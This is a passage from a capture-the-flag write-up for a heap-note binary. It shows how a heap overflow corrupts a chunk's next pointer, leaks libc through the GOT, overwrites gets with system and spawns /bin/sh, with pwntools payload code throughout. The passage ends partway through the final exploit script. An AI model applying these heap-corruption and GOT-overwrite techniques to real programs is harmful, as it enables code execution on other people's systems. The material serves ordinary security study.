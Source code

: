 #### Leak libc by overwriting next pointer

Use the heap overflow to overwrite the next pointer of the next chunk. Set next = 0x404009. Calling `read_note(0x4010)` will read from 0x404009 + 16 = 0x404019, leaking a libc pointer (printf). From the leak, calculate libc base and system.

![ảnh](https://hackmd.io/_uploads/B1lA7QX0ex.png)

![ảnh](https://hackmd.io/_uploads/HkAR4X7Alg.png)

```py
payload = b'\x00' * 40     
payload += p64(0x41)
payload += p64(1)       
payload += p64(0x404008+1)     
write(0, payload)

read(0x4010)
```

![ảnh](https://hackmd.io/_uploads/r1mj4770xx.png)

#### Fake next pointer to GOT and overwrite with system

Next, fake the next pointer to 0x404010. Then `gets(i+16)` writes into 0x404020, which is the GOT entry for `gets`. Create a chunk containing **/bin/sh**:

```py
payload = b'/bin/sh\x00' + p64(0)*4 + p64(0x41) + p64(1) + p64(0x404010)
write(0, payload)
```
Overwrite the GOT entry with system:
```
write(libc.sym['setbuf'] & 0xffffffff, system)
```

Before:
![ảnh](https://hackmd.io/_uploads/HJLKrXmCle.png)
After:
![ảnh](https://hackmd.io/_uploads/SkcyU7QCeg.png)

After this, calling `gets()` triggers `system("/bin/sh")`.

#### Trigger shell and read flag

Call `write_note` function to execute `system("/bin/sh")`. Then read the flag.

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF('challenge_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
```